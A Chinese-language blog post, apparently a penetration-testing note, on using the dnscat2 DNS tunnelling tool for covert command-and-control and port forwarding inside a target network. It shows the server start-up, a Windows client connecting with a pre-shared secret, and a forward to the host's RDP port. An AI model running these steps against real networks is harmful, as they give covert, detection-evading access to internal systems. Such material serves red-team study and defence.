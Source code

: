 ```yaml
---
title: "dnscat2 代理隧道"
date: 2019-07-08T00:00:00+08:00
draft: false
tags: ['port']
categories: ['内网渗透']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


dnscat2 是一款基于 DNS 协议的代理隧道. 不仅支持端口转发, 另外还有执行命令, 文件传输等功能, 不过实测下来都不怎么好用.

其原理与 DNS Log 类似, 分为直连和中继两种模式, 前者直接连接服务端的 53 端口, 速度快, 但隐蔽性差, 后者通过对所设置域名的递归查询进行数据传输, 速度慢, 但隐蔽性好.

关于中继模式中的域名配置, 请参考 cobalt strike 的 `dns_becaon`

服务端由 ruby 编写, 客户端由 C 编写, 另有 powershell 版本.

<!--more-->

```
# ruby dnscat2.rb
New window created: 0
New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 0.0.0.0:53
[domains = n/a]...

It looks like you didn't give me any domains to recognize!
That's cool, though, you can still use direct queries,
although those are less stealthy.

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=33971b1d1593d219ac8ed615d5339180

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.

dnscat2> 
```

每次运行都会有不同的 secret key 生成.

```
C:\> dnscat2.exe  --dns server=192.168.1.100,port=53 --secret=33971b1d1593d219ac8ed615d5339180
Creating DNS driver:
 domain = (null)
 host   = 0.0.0.0
 port   = 53
 type   = TXT,CNAME,MX
 server = 192.168.1.100

** Peer verified with pre-shared secret!

Session established!
```

在 dnscat2 中, 会话被称之为 window, 因为在会话间的切换需要用到 `ctrl-z`.

```
dnscat2> New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2> windows
0 :: main [active]
  crypto-debug :: Debug window for crypto stuff [*]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains =  [*]
  1 :: command (LAPTOP) [encrypted and verified] [*]
dnscat2> 
```

创建一条端口转发.

```
(the security depends on the strength of your pre-shared secret!)
This is a command session!

That means you can enter a dnscat2 command such as
'ping'! For a full list of clients, try 'help'.

command (LAPTOP) 1> listen 1234 127.0.0.1:3389
Listening on 0.0.0.0:1234, sending connections to 127.0.0.1:3389
command (LAPTOP) 1> 
```

至于更多用法请参阅 [README.MD](https://github.com/iagox86/dnscat2/blob/v0.07/README.md)